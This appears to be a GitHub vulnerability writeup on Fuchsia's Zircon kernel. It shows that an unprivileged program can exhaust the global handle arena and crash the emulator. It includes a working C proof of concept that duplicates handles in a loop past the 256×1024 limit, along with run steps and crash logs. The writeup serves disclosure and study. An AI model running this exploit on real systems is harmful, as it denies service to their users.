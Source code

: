 # Dos on Fuchsia

## Set-up


Replace "/examples/fortune/fortune.c" with the following code.

// Get a handle by calling  zx_vmo_create, then call zx_handle_duplicate to duplicate the handle. 

// Here I try to duplicate 300\*1024 handles, while the max number of handles is initialized as 256\*1024 in _arena.Init().

```c
	#include <stdio.h>
	#include  <zircon/syscalls.h>
	#define  max_num  300*1024
	zx_handle_t  res_handle[max_num];
	int  main() {
		zx_handle_t  handle1;
		zx_status_t  sys_ret;
		sys_ret = zx_vmo_create(10,0,&handle1);
		if(sys_ret==ZX_ERR_INVALID_ARGS)
		{
			printf("wrong with zx_vmo_create");
		}
		else  if(sys_ret == ZX_ERR_NO_MEMORY)
		{
			printf("wrong no mem");
		}
		else
		{
			printf("syscall success");
		}
		int  i=0;
		while (i < max_num)
		{
			sys_ret = zx_handle_duplicate(handle1,ZX_RIGHT_SAME_RIGHTS,&res_handle[i]);
			if(sys_ret==ZX_ERR_NO_MEMORY)
			{
			// printf("Ddddddddos");
			}
			i++;
		}
		while (1)
		{}
		return  0;
	}
```

   Call printf(...) when handle could not be created.
   
   /zircon/kernel/lib/fbl/include/fbl/gparena.h
   
```c
    void* Alloc(){
	...

		do{
			...
			if(...){
				if(...){
					printf("DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!"); // here!!!
					return nullptr;
				}
			}
		}while (!top_.compare_exchange_strong(top, next_top, ktl::memory_order_relaxed,
					ktl::memory_order_relaxed));
		count_.fetch_add(1, ktl::memory_order_relaxed);
		return  reinterpret_cast<void*>(top);
	}
```

## Run

Open 3 terminals. 

Terminal 1

    $ fx set workstation.qemu-x64 --ccache --with //example/fortune
    $ fx build
    $ fx vdl start -N -u FUCHSIA_ROOT/scripts/start-unsecure-internet.sh

Terminal 2

    $ fx serve-updates

Terminal 3

    $ fx log

Terminal 1
```
$ fortune
```


## Result
Warnning in Terminal 3, then the FEMU crash.

Terminal 3
```
[00016.023134][57943][57945][klog] WARNING: WARNING: High handle count: 229377 / 229376 handles
[00016.029523][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029527][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029528][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029529][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029530][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029532][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029535][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029536][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029538][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
[00016.029575][57943][57945][klog] WARNING: DDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDDos!!!WARNING: Could not allocate duplicate handle (262144 outstanding)
```
You can see that now the number of exsiting handles is 256\*1024 = 262144, or the max number of handles.

Terminal 1
```

$ ssh: Could not resolve hostname : Temporary failure in name resolution
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host
kex_exchange_identification: Connection closed by remote host

```

## Details
Zircon Handles allows user space programs to reference kernel objects.

Sharable Resource: Zircon maintains a global struct call [HandleTableArena gHandleTableArena](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=76) for allocating all Handles.

Limit: The arena has a limit for all live handles, specified by [kMaxHandleCount](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=18), whose value is 256 * 1024. gHandleTableArena contains a member of [fbl::GPArena<Handle::PreserveSize, sizeof(Handle)> arena_](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/include/object/handle.h;l=154), whose [Init](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=42) allocates [kMaxHandleCount * handle_size](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/object/handle.cc;l=78) memory. If the number of live handles goes beyond the limit, Alloc will return [nullptr](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=121).

The attacker can consume handles to exhaust all handles in gHandleTableArena. 1) Handles are frequently-used in Zircon. Any events, processes, or threads are consuming new handles. 2) Currently we did not find any per-user limits on handles. 3) If handles are exhausted, the users cannot send events or creates any processes or threads.

Count: GPArena maintains a count_, which increments in [Alloc](https://cs.opensource.google/fuchsia/fuchsia/+/main:zircon/kernel/lib/fbl/include/fbl/gparena.h;l=126).
